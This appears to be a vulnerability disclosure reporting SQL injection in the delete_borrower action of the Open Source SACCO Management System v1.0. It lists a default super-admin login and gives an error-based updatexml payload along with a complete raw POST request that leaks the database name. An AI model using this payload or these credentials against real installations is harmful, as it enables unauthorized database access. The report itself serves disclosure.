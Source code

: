 # Open Source SACCO Management System v1.0 by mayuri_k has SQL injection

BUG_Author: H1dd3n

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/15372/open-source-sacco-management-system-free-download.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /sacco_shield/ajax.php?action=delete_borrower

Vulnerability location: /sacco_shield/ajax.php?action=delete_borrower, id

dbname = sacco,length=5

[+] Payload: id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /sacco_shield/ajax.php?action=delete_borrower HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 64

id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191199659-05ce5da5-d0bb-4723-86e1-abaadcb28610.png)
